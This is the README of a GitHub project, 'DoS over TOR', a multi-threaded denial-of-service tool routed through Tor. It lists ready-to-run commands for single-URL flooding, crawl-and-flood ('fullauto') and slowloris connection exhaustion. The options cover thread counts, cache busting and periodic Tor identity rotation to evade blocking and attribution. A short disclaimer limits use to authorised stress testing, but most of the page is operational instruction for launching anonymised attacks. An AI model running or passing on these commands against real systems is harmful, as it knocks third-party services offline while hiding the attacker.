


# DoS over TOR

[](https://github.com/skizap/dos-over-tor/actions/workflows/ci.yml)

> [!WARNING]
> - This tool is for **authorised penetration testing and stress-testing only**.
> - Running it against systems you do not own or have explicit written permission to test is **illegal** in most jurisdictions.
> - The authors accept no liability for misuse.

Proof of concept denial of service over TOR stress test tool. Is multi-threaded and supports multiple attack vectors.

**Requires Python 3.10 or higher.**



## Requirements & Installation

**Python requirement**
Requires Python 3.10 or higher.

**Linux installation**
```bash
$ git clone https://github.com/skizap/dos-over-tor.git
$ cd dos-over-tor
$ pip install -e .
```

**Tor setup**
1. Install Tor:
   ```bash
   $ sudo apt install tor        # Debian/Ubuntu
   $ sudo dnf install tor        # Fedora/RHEL
   ```
2. Start the Tor service:
   ```bash
   $ sudo systemctl enable --now tor
   ```
3. Verify the two required ports are listening:
   ```bash
   $ ss -tlnp | grep -E '9050|9051'
   ```
   Port **9050** is the SOCKS5 proxy (used by `--tor-proxy-port`) and port **9051** is the control port (used by `--tor-ctrl-port`).

## Usage

**General syntax**
```bash
$ ./main.py <mode> <target> [options]
```

**Common options table**
| Flag | Default | Description |
|---|---|---|
| `--tor-address` | `127.0.0.1` | Tor service address |
| `--tor-proxy-port` | `9050` | Tor SOCKS5 proxy port |
| `--tor-ctrl-port` | `9051` | Tor control port |
| `--num-threads` | `10` | Number of soldier threads (1–100) |
| `--http-method` | `GET` | HTTP method (`GET`, `POST`, `PUT`, `DELETE`) |
| `--cache-buster` | off | Append random query string to every request |
| `--identity-rotation-interval` | disabled | Rotate Tor identity every N seconds |

**`singleshot` mode**
Hits a single URL repeatedly across all threads. Example:
```bash
$ ./main.py singleshot https://example.com --num-threads=20 --identity-rotation-interval=60
```

**`fullauto` mode**
Crawls the target domain for links (using BeautifulSoup) and hits as many pages as possible. Mode-specific flags:

| Flag | Default | Description |
|---|---|---|
| `--max-urls` | `500` | Max URLs to discover per thread |
| `--max-time` | `180` | Max crawl time in seconds per thread |

Example:
```bash
$ ./main.py fullauto https://example.com --num-threads=50 --max-urls=200 --max-time=120 --http-method=POST --cache-buster --identity-rotation-interval=60
```

**`slowloris` mode**
Opens many partial HTTP connections and keeps them alive with slow keep-alive headers, exhausting the server's connection pool. Mode-specific flag:

| Flag | Default | Description |
|---|---|---|
| `--num-sockets` | `100` | Sockets to open per thread |

Note that `bytes_received` is always 0 for this mode because no response body is ever read. Example:
```bash
$ ./main.py slowloris https://example.com --num-threads=25 --num-sockets=200 --cache-buster --identity-rotation-interval=60
```

**Interactive mode**
The `./main.py interactive` command acts as a guided wizard. The five wizard steps:

1. **Mode selection** — choose `1` (singleshot), `2` (fullauto), or `3` (slowloris).
2. **Target URL** — must include `http://` or `https://` scheme and a domain; re-prompted on invalid input.
3. **Common options** — threads, HTTP method, cache buster, Tor address/ports, identity rotation interval (enter `0` to disable).
4. **Mode-specific options** — sockets count for slowloris; max URLs and max time for fullauto.
5. **Execution** — wizard builds `AttackConfig` and delegates to `AttackRunner`.

Example:
```bash
$ ./main.py interactive
```

## Architecture


```mermaid
sequenceDiagram
    participant CLI as main.py / InteractiveWizard
    participant Runner as AttackRunner
    participant Preflight as PreFlightValidator
    participant Tor as TorClient
    participant Platoon as Platoon
    participant Soldier as SoldierThread
    participant Weapon as Weapon
    participant Monitor as Monitor
    participant Reporter as SummaryReporter

    CLI->>Runner: run(AttackConfig)
    Runner->>Tor: connect(address, proxy_port, ctrl_port)
    Runner->>Preflight: validate(tor_client, config)
    Preflight-->>Runner: True / False
    Runner->>Platoon: attack(target_url, weapon_factory)
    loop each SoldierThread
        Platoon->>Soldier: attack(target_url, weapon)
        Soldier->>Weapon: attack()
        Weapon-->>Soldier: AttackResult
        Soldier->>Monitor: report_attack_result(result)
    end
    Platoon->>Monitor: get_summary()
    Monitor-->>Runner: AttackSummary
    Runner->>Reporter: display(summary)
```

- **`AttackConfig`** (`app/models.py`) — dataclass holding all configuration: mode, target, thread count, Tor ports, and mode-specific parameters.
- **`AttackRunner`** (`app/runner.py`) — orchestrates the full lifecycle: Tor connection, pre-flight, proxy scope, weapon factory creation, platoon execution, and summary display.
- **`PreFlightValidator`** (`app/preflight.py`) — checks Tor control connection, retrieves the current exit IP via the proxy, and prints the configuration summary before the attack starts.
- **`Platoon`** (`app/command.py`) — spawns `SoldierThread` instances (with a staggered 1–2 s ramp-up), optionally starts an `IdentityRotator`, and drives the live status display loop.
- **`SoldierThread`** (`app/command.py`) — a `threading.Thread` that loops calling `Weapon.attack()` and forwarding each `AttackResult` to the `Monitor`.
- **`Weapon`** (`app/weapons/__init__.py`) — abstract base; concrete implementations are `SingleShotWeapon`, `FullAutoWeapon`, and `SlowLorisWeapon`.
- **`Monitor`** (`app/command.py`) — thread-safe collector of `AttackResult` objects; provides live metrics (hits/sec via rolling buckets) and a final `AttackSummary`.
- **`SummaryReporter`** (`app/reporter.py`) — formats and prints the end-of-run `AttackSummary` with human-readable byte sizes, durations, and HTTP status distribution.

## Bytes Tracking

- **`singleshot` / `fullauto`**: `NetworkClient.request()` in `app/net.py` computes `bytes_sent` from the request-line length + header lengths. `bytes_received` uses the `Content-Length` response header when present; otherwise falls back to `response.length` hint or a fixed 200-byte header estimate. These are **best-effort estimates** — actual wire bytes may differ.
- **`slowloris`**: `SlowLorisWeapon` in `app/weapons/slowloris.py` counts the exact bytes passed to each `sock.send()` call (HTTP request line + headers + keep-alive headers), so `bytes_sent` is accurate. `bytes_received` is always `0` because no response body is ever read.

## Troubleshooting

**Tor not running**
Symptom:
```
[ERROR] Failed to connect to Tor: failed to connect to control port; ...
```
or:
```
[ERROR] Tor control connection failed - not connected to Tor
[ERROR] Tor proxy connection failed - ...
```

Fix: ensure Tor is running (`sudo systemctl start tor`) and that ports 9050 and 9051 are open. Verify with `ss -tlnp | grep -E '9050|9051'`.

**Invalid target URL**
Symptom (interactive mode):
```
Invalid URL. Must include scheme (http/https) and domain.
```

Fix: always prefix the target with `http://` or `https://`. The CLI `singleshot`/`fullauto`/`slowloris` commands call `url_ensure_valid()` from `app/net.py` which defaults to `https://` if no scheme is given, but the interactive wizard enforces the scheme explicitly.

**Network failures during a run**
Symptom:
```
[ERROR] Network request error during attack: ...
[ERROR] Unexpected error during attack: ...
```
Individual thread errors are also logged per-request:
```
[ERROR] <RequestException message>
```

Fix: check that the Tor proxy is still reachable (`curl --socks5-hostname 127.0.0.1:9050 https://icanhazip.com`). Transient errors are counted in the `total_errors` field of the summary and do not stop the attack.

## Contributing

1. **Dev install**:
   ```bash
   $ pip install -e .[dev]
   ```
2. **Run tests**:
   ```bash
   $ pytest
   ```
3. **Type checking**:
   ```bash
   $ mypy app/
   ```
4. **Lint**:
   ```bash
   $ ruff check .
   ```
5. **Format**:
   ```bash
   $ ruff format .
   ```